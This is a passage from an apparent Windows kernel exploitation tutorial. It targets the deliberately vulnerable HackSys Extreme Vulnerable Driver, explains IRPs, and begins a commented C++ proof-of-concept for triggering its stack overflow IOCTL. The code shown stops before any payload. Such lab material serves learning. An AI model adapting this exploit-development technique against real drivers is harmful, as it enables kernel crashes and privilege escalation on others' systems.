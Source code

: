 When we call this function the I/O Manager will create an [IRP](https://msdn.microsoft.com/en-us/library/windows/hardware/ff550694(v=vs.85).aspx) (I/O Request Packet) which it delivers to the device driver, the IRP is just a structure which encapsulates the I/O Request and maintains its request status. The IRP is then passed down the Windows driver stack until a driver that can handle it is found.
Now we know how the method we're interested in is defined and how to interact with it we can write a short programme that sends it a test request:
<pre>
// HackSysDriverCrashPoC.cpp : triggers a crash in the HackSys driver via the STACK_OVERFLOW IOCTL
#include "stdafx.h"
#include &lt;stdio.h>
#include &lt;Windows.h>
#include &lt;winioctl.h>
#include &lt;TlHelp32.h>

//Definition taken from HackSysExtremeVulnerableDriver.h
#define HACKSYS_EVD_IOCTL_STACK_OVERFLOW	CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

int _tmain(int argc, _TCHAR* argv[])
{
	DWORD lpBytesReturned;
	PVOID pMemoryAddress = NULL;
	PULONG lpInBuffer = NULL;
	LPCSTR lpDeviceName = (LPCSTR) "\\\\.\\HackSysExtremeVulnerableDriver";
	SIZE_T nInBufferSize = 1024 * sizeof(ULONG); //1024 is a randomly chosen size, a nice number that's probably big enough.

	printf("Getting the device handle\r\n");

	//HANDLE WINAPI CreateFile( _In_ lpFileName, _In_ dwDesiredAccess, _In_ dwShareMode, _In_opt_ lpSecurityAttributes,
	//_In_ dwCreationDisposition, _In_ dwFlagsAndAttributes, _In_opt_ hTemplateFile );
	HANDLE hDriver = CreateFile(lpDeviceName,			//File name - in this case our device name
		GENERIC_READ | GENERIC_WRITE,					//dwDesiredAccess - type of access to the file, can be read, write, both or neither. We want read and write because thats the permission the driver declares we need.
		FILE_SHARE_READ | FILE_SHARE_WRITE,				//dwShareMode - other processes can read and write to the driver while we're using it but not delete it - FILE_SHARE_DELETE would enable this.
		NULL,											//lpSecurityAttributes - Optional, security descriptor for the returned handle and declares whether inheriting processes can access it - unneeded for us.
		OPEN_EXISTING,									//dwCreationDisposition - what to do if the file/device doesn't exist, in this case only opens it if it already exists, returning an error if it doesn't.
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,	//dwFlagsAndAttributes - In this case the FILE_ATTRIBUTE_NORMAL means that the device has no special file attributes and FILE_FLAG_OVERLAPPED means that the device is being opened for async IO.
		NULL);											//hTemplateFile - Optional, only used when creating a new file - takes a handle to a template file which defineds various attributes for the file being created.

	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("Failed to get device handle :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Got the device Handle: 0x%X\r\n", hDriver);
	printf("Allocating Memory For Input Buffer\r\n");
